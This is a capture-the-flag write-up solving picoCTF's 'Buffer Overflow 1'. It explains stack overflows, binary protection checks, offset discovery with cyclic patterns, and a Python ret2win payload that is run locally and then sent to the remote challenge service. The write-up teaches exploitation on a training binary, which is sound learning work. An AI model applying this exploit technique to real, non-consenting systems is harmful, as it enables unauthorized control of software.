

## 📌 Overview

As part of my ongoing preparation for the **CEDP (Certified Exploit Development Professional)** certification by **CWL (CyberWarFare Labs)**, I completed the picoCTF “Buffer Overflow 1” challenge focused on stack-based Buffer Overflow exploitation.

This write-up is not intended to reproduce course content, but rather to apply similar concepts through practical hands-on learning and CTF-based research.

The walkthrough covers both the theory and practical side of Buffer Overflows, including stack memory corruption, EIP control, Ret2Win exploitation, payload crafting, and remote exploitation.

---

# 🛠️ Tools Used

| Tool                  | Purpose                                                                            |
| --------------------- | ---------------------------------------------------------------------------------- |
| **GDB**               | Used for runtime debugging and analyzing stack behavior during execution           |
| **GEF / pwndbg**      | Enhanced GDB extensions used for cyclic pattern generation and register inspection |
| **objdump**           | Used for discovering the hidden function address                                   |
| **checksec**          | Used to identify binary protections                                                |
| **Netcat (`nc`)**     | Used for interacting with the remote picoCTF instance                              |

---

# What is a Buffer Overflow?

A **Buffer Overflow** occurs when a program writes more data into a memory buffer than the buffer can safely store.

When memory boundaries are not properly validated, attacker-controlled input can overwrite adjacent stack memory including:

* local variables
* saved registers
* saved frame pointers
* function return addresses

This may lead to:

* program crashes
* arbitrary code execution
* privilege escalation
* remote code execution (RCE)

---

# Conditions Required for a Buffer Overflow

A stack-based buffer overflow usually occurs when:

### 1 - A Fixed-Size Buffer Exists

```c
char buf[32];
```

The application allocates limited stack memory.

---

### 2 - Unsafe Input Functions Are Used

Functions such as:

```c
gets()
strcpy()
scanf("%s")
sprintf()
```

perform little or no bounds checking.

---

### 3 - User Input Exceeds Buffer Capacity

If attacker-controlled input exceeds the allocated buffer size:

```text
32-byte buffer
+ extra bytes
→ overwrite adjacent stack memory
```

critical control-flow data may become corrupted.

---

Understanding how buffer overflows work conceptually is important, but real understanding comes from observing how memory corruption behaves during execution.

To apply these concepts practically, the picoCTF **Buffer Overflow 1** challenge was used as a controlled exploitation environment.

The challenge provides a vulnerable binary, source code, and a remote service instance, making it an ideal real-world example for studying:

* stack memory corruption
* saved return address overwrites
* execution flow hijacking
* Ret2Win exploitation techniques

The following walkthrough demonstrates the complete exploitation process from initial analysis to successful flag retrieval.

# Step 1 -  Reviewing the Challenge Description



The challenge description immediately hints that the objective is controlling the return address and redirecting execution into the hidden flag function.

The challenge provides:

* the vulnerable binary
* source code
* a remote challenge instance

---

# Step 2 - Obtaining the Binary and Source Code



The binary and source code were downloaded locally for analysis.

The workspace contains:

```text
vuln
vuln.c
flag.txt
```

### Why This Matters

Having access to both the binary and source code makes exploitation significantly easier because we can:

* inspect program logic
* identify unsafe functions
* locate hidden functions
* reproduce crashes locally
* test payloads before attacking the remote service

---

# Step 3 - Observing Initial Program Behavior



The application was executed normally to observe baseline behavior.

The program:

* requests user input
* echoes execution flow information
* exits normally

At this stage, no crash occurs.

---

# Step 4 - viewing the Source Code



Reviewing the source code reveals two important functions:

## `win()` Function

```c
void win()
```

The function:

* opens `flag.txt`
* reads its contents
* prints the flag to the screen

This is the target function for exploitation.

---

## Vulnerable `vuln()` Function

```c
char buf[BUFSIZE];
gets(buf);
```

### Vulnerability Analysis

Problem:

* the stack buffer only allocates 32 bytes
* `gets()` performs no bounds checking

This allows attacker-controlled input to overflow beyond the intended stack boundaries.

Critical stack structures become overwriteable:

* saved EBP
* saved return address (EIP)

### Let me tell you this

Once EIP becomes controllable, execution flow can be redirected into attacker-chosen locations such as the hidden `win()` function.

---

# Step 5 - Checking Binary Protections



The binary protections were analyzed using:

```bash
checksec --file=vuln
```

Output reveals:

```text
No PIE
NX disabled
No canary found
```


## No PIE

Because PIE is disabled:

```text
Function addresses remain static.
```

This means:

```text
win() address never changes.
```

making exploitation significantly easier.

---

## No Stack Canary

No stack canary means:

```text
No stack corruption detection exists.
```

The program will not detect overwritten stack memory before returning.

---

# Step 6 - Discovering the `win()` Address

The hidden function address was discovered using:

```bash
objdump -d vuln | grep win
```

Result:

```text
080491f6 <win>
```

Because PIE is disabled, the address:

```text
0x080491f6
```

remains stable across executions.

This address becomes the target for the overwritten return pointer.

---


# Step 7 - Launching the Binary Inside GDB & Generating a Cyclic Pattern



The vulnerable binary was executed inside GDB with GEF in order to observe program behavior during execution and identify how the stack becomes corrupted during the overflow.

### Command Used

```bash
gdb ./vuln
```

After launching the program inside GDB, a unique cyclic pattern was generated:

```bash
msf-pattern_create -l 250
```

The generated pattern was then supplied to the vulnerable application.


The reason is that GDB allows us to:

* inspect registers
* analyze crashes
* inspect stack memory
* verify EIP control
* understand execution flow

Meanwhile, cyclic patterns generate non-repeating sequences that help identify the exact overwrite offset automatically.

When the application crashes, the overwritten register value can be traced back to its exact position inside the cyclic pattern without manually counting bytes.

This becomes extremely important when determining the precise offset required to overwrite the saved return address successfully.

---

# Step 8 - Triggering the Buffer Overflow



After supplying the cyclic pattern, the application crashes with:

```text
SIGSEGV
```

The crash confirms:

* stack corruption
* overwritten saved registers
* corrupted execution flow

Important observation:

```text
EIP overwritten with pattern data
```

This proves the overflow successfully reached the saved return address.

At this point, program execution flow becomes controllable.

---

# Step 10 - Finding the Exact Offset



The overwritten value was analyzed using:

```bash
msf-pattern_offset -q 0x35624134
```

Result:

```text
Exact match at offset 44
```

This confirms that:

```text
44 bytes
```

are required before reaching EIP.

Stack layout:

```text
32 bytes -> buffer
additional compiler padding/alignment
saved EBP
-----------------------------
44 bytes -> EIP
```

Any bytes written after offset 44 overwrite the return address.

---

# Step 11 - Building the Final Payload




The exploit payload was created using Python.

## Final Exploit Script

```python
import struct
import sys

payload = b"A" * 44
payload += struct.pack("<I", 0x080491f6)
payload += b"\n"

sys.stdout.buffer.write(payload)
```

---

## Payload Breakdown

### `b"A" * 44`

Fills the stack until EIP is reached.

Why exactly 44 bytes?

```text
32 bytes -> stack buffer
compiler alignment/padding
saved EBP
-----------------------------
44 bytes -> EIP
```

---

### `struct.pack("<I", 0x080491f6)`

Converts the address into a:

```text
32-bit little-endian value
```

This is required because:

* the binary uses x86 architecture
* memory stores addresses in little-endian format

Without packing, the address would be interpreted as normal text instead of a valid memory pointer.

---

### `b"\n"`

Adds a newline character.

This is important because:

```c
gets()
```

continues reading input until:

* newline
* or EOF

Without the newline, the remote service may continue waiting for input.

---

# Step 12 - Local Exploitation



The payload was first tested locally:

```bash
python3 exp.py | ./vuln
```

Execution flow successfully jumps into:

```text
0x080491f6
```

and the local flag is printed.


Testing locally helps verify:

* correct offset
* correct endianness
* valid function address
* successful EIP control

before attacking the remote instance.

---

# Step 13 - Remote Exploitation



The payload was then sent to the remote picoCTF instance:

```bash
python3 exp.py | nc saturn.picoctf.net <PORT>
```

The overwritten return address successfully redirects execution into the hidden `win()` function.

The remote flag is revealed.

This confirms successful control over real program execution flow.

The overflow is no longer theoretical — it is fully exploitable.

---

# Step 14 - Challenge Completion



After submitting the flag, picoCTF successfully validates the solution.

The challenge is officially marked as solved.

---

* Understanding the Final Segmentation Fault

After printing the flag, the binary still crashes with:

```text
SIGSEGV
```

This behavior is expected.

Why?

The exploit only overwrites the return address required to jump into `win()`.

After `win()` finishes execution, it attempts to execute:

```asm
leave
ret
```

However:

```text
saved EBP and surrounding stack data are already corrupted.
```

So the program eventually attempts returning to an invalid memory address and crashes.

---

# 📌 Conclusion

Buffer Overflow 1 demonstrates how a single unsafe function such as:

```c
gets()
```

can completely compromise application execution flow.

By understanding:

* stack memory layout
* saved EIP behavior
* cyclic offset analysis
* little-endian addressing
* runtime debugging
* return-oriented execution flow

it becomes possible to redirect execution into attacker-controlled paths such as the hidden `win()` function.

This challenge reinforces a critical binary exploitation principle:

> successful exploitation is based on understanding memory behavior during execution, not guessing values.

---

This work is part of **FuzzRaiders’** structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor, and effective security execution.

Happy hacking 🚀

---

